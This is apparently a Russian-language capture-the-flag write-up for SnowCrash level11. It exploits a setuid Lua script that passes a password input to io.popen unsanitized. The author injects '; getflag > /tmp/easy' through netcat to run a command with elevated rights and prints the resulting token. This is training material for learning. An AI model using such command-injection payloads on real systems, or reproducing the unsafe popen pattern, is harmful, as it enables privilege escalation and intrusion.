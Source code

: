 level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
Видим, что есть suid

Запустив, видмим, что порт уже используется из чего делаем вывод, что скрипт уже запущен
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?

Открыв файл level11.lua и изучив содержимое, находим в нем строчку:

prog = io.popen("echo "..pass.." | sha1sum", "r")

Исходя из документации :
io.open (filename [, mode])

io.popen (prog [, mode])

Запускает программу prog в отдельном процессе и возвращает хендлер файла, который вы можете
использовать для чтения данных из этой программы (если mode равен "r", значение по умолчанию)
или для записи данных в эту программу (если mode равен "w").

Так как данная функция запускает программу, а на файле стоит suid, значит нам просто нужно дать строку, которая выполнит getflag

level11@SnowCrash:~$ nc localhost 5151
Password: ; getflag > /tmp/easy

level11@SnowCrash:~$ cat /tmp/easy
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
